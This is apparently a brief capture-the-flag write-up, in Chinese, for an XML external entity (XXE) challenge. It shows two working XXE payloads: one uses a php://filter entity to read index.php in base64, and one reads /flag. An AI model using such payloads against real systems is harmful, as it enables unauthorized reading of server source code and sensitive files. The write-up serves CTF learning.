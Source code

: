# File Access
```
file://index.php
```

# XXE

讀取index.php檔案，發現 flag 不在裡面=3=
```
<!DOCTYPE root [
  <!ENTITY name SYSTEM
  "php://filter/read=convert.base64-encode/resource=/var/www/html/index.php"
  >
]>
<root>
    <result>&name;</result>
</root>
```
   
然後重讀題目發現....我眼殘 flag 在 /flag

```
<!DOCTYPE root [
  <!ENTITY name SYSTEM "file:///flag">
]>
<root>&name;</root>
```

#
